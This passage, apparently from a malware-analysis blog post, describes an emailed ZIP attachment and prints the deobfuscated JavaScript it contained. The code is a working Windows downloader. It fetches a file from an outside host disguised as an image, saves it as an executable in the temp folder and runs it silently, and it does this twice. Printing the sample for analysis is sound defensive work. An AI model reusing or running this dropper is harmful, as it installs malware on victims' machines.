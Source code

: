 <figure>
<img src="/images/2015/zip_info-2.png" alt="The malicious email attachment">
  <figcaption>.ZIP file received by email, containing a JavaScript file</figcaption>
</figure>

After deobfuscation of the file, we got this code:

```javascript
function dl(fr, fn, rn)
{
var ws = new ActiveXObject("WScript.Shell");
var fn = ws.ExpandEnvironmentStrings("%TEMP%") + String.fromCharCode(92) + fn;
var xo = new ActiveXObject("MSXML2.XMLHTTP");
xo.onreadystatechange = function (){    if (xo.readyState === 4){      var xa = new ActiveXObject("ADODB.Stream");
xa.open();
xa.type = 1;
xa.write(xo.ResponseBody);
xa.position = 0;
xa.saveToFile(fn, 2);
xa.close();
};
}  ;
try {
xo.open("GET", fr, false);
xo.send();
if (rn > 0)
{
ws.Run(fn, 0, 0);
};
} catch (er){  }  ;
}dl("http://22072014b.com/images/2015/global1.jpg", "16477935.exe", 1);dl("http://22072014b.com/images/2015/global1.jpg", "89555869.exe", 1);
```
